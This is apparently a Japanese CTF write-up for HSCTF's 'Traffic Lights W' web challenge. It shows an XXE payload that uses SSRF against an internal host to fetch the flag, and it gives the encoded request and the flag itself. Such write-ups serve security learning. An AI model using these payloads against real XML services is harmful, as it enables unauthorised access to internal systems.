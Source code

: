 # Traffic Lights W

```
web traffic lights

🚦Can you figure out what's going on with this shady company?
https://traffic-light-w.web.hsctf.com/
Author: meow
```

<br>

## Solution

![1](https://user-images.githubusercontent.com/47602064/83937878-62910800-a80b-11ea-9e2d-b13eb7781b1a.png)

問題のページに移動すると`Traffic Light Dashboard`というページが標示されました。

グラフの下にある`Current Status`より`# 	Active 	Docker Hostname 	Port 	Firmware`という項目があります。

今`Action`が`True`なのは`#1001`と`#1004`の2つになります。

`#1001`の方の`Upload Firmware`を開いてみると以下のように標示されて`XML`コードが送れるそうです。

![2](https://user-images.githubusercontent.com/47602064/83939360-472bfa00-a817-11ea-9d47-6f5d030d5e22.png)

`Example: example`とあるので見てみると以下の内容でした。

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<root>
  <content>Red</content>
</root>
```

これを試しに挿入してみると以下のように標示されました。

```
https://traffic-light-w.web.hsctf.com/firmware_upload.php?xml=%3C%3Fxml+version%3D%221.0%22+encoding%3D%22ISO-8859-1%22%3F%3E%0D%0A%3Croot%3E%0D%0A++%3Ccontent%3ERed%3C%2Fcontent%3E%0D%0A%3C%2Froot%3E
```

![3](https://user-images.githubusercontent.com/47602064/83939407-b0ac0880-a817-11ea-85b9-d0dde1781846.png)

これで挿入したXMLが機能していることがわかりました。

<br>

これにより`XXE`が行える可能性があります。

次に`XXE`に埋め込んで`SSRF`が出来るようにします。

今回は2つが`Action`で`True`になっています。

なのでどちらかが使えそうです。

<br>

2つとも試したら、`#1004`が上手く実行できました。

以下の内容を`#1001`に送ります。

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "http://traffic-light-1004">]>
<root>
  <content>&xxe;</content>
</root>
```
すると`XXE`に埋め込んだ`SSRF`により上手く実行されてflagが表示されました。

```
https://traffic-light-w.web.hsctf.com/firmware_upload.php?xml=%3C%3Fxml+version%3D%221.0%22+encoding%3D%22ISO-8859-1%22%3F%3E%0D%0A%3C%21DOCTYPE+root+%5B%3C%21ENTITY+xxe+SYSTEM+%22http%3A%2F%2Ftraffic-light-1004%22%3E%5D%3E%0D%0A%3Croot%3E%0D%0A++%3Ccontent%3E%26xxe%3B%3C%2Fcontent%3E%0D%0A%3C%2Froot%3E
```

![4](https://user-images.githubusercontent.com/47602064/83939223-421a7b00-a816-11ea-8d99-85e0876ed8f7.png)


```txt
If you're reading this... You found out that the traffic lights are fake. Don't tell anyone. Here's a flag to make you happy: flag{shh_im_mining_bitcoin}
```

<br><br>

## FLAG: flag{shh_im_mining_bitcoin}
